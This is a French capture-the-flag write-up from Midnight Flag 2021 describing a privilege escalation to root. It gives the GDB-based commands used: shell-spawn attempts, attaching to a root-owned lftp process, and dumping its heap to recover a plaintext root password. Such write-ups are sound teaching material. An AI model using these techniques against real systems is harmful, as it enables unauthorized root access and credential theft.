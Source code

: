 # Route Moi - root
## Présentation

Il faut maintenant élever ses privilèges jusqu'à root.

Ce challenge a été mon coup de coeur du Midnight Flag 2021 ! :) 

**Catégorie :** Réaliste  
**Points :** 350

## Résolution

On profite d'avoir le pass de meltheboss pour s'ouvrir un petit SSH bien confort.  
Premier reflex de reconaissance : `sudo -l`

On découvre alors qu'on a les droits sudo pour un fichier (dont je n'ai plus le nom exact) `/usr/lib/execute.py`.  
Quand on lance ce fichier, un prompt nous demande d'indiquer un fichier à exécuter.

On pourrait imaginer qu'il s'agit donc d'un script qui ferait un eval() sur un autre fichier python.  
On se crée donc un fichier de test dans `/tmp` :

```
➜  echo 'print(1)' > /tmp/test.py
```

Lorsqu'on essaye de l'importer, le programme nous répond que le fichier doit respecter la syntaxe :

```
import gdb
gdb.execute('attach x')
gdb.execute('i a r')
gdb.execute('quit')
```

Il semblerait donc qu'on soit conffronté à une librairie pyton qui execute des commandes dans GDB.  
Ma première idée était de voir si on pouvait se spawn un petit shell :

```
gdb.execute('!sh')
gdb.execute('!bash')
gdb.execute('shell')
gdb.execute('python import pty; pty.spawn("/bin/sh")')
gdb.execute('python')
gdb.execute('python-interactive')
```

Mais sans succès. Mon attention a donc été attirée par la première ligne du script d'exemple qui parle d'attacher un processus (`attach x`). Comme rien n'est jamais là par hasard, on fait un petit tour dans les processus et on découvre en effet un lftp qui tourne avec les droits root et le pid `562`.

Nouvelle idée : attacher ce processus et essayer de voir si on peut pas retrouver un mot de passe dans la mémoire.

On se construit donc un nouvel exploit :

```
import gdb
gdb.execute('attach 562')
gdb.execute('info proc mappings')
```

qui fonctionne à merveille et nous donne nos adresses mémoire :

```
Mapped address spaces:

Start Addr           End Addr       Size     Offset objfile
0x55e8db79a000     0x55e8db8e9000   0x14f000        0x0 /usr/bin/lftp
0x55e8dbae9000     0x55e8dbaf2000     0x9000   0x14f000 /usr/bin/lftp
0x55e8dbaf2000     0x55e8dbaf8000     0x6000   0x158000 /usr/bin/lftp
0x55e8dbaf8000     0x55e8dbafa000     0x2000        0x0 

0x55e8dd0c5000     0x55e8dd144000    0x7f000        0x0 [heap]
```

On peut maintenant exporter le contenu de notre heap :

```
import gdb
gdb.execute('attach 562')
gdb.execute('dump memory out 0x55e8dd0c5000 0x55e8dd144000')
```

La commande `strings` n'est pas installée sur le serveur, on fait donc un scp pour récupérer le fichier `out` en local et après un petit parcours manuel on retrouve notre mot de passe : `th3sup3rr00tp4ssw0rd`.

Le flag se trouve dans `/root/flag.txt`.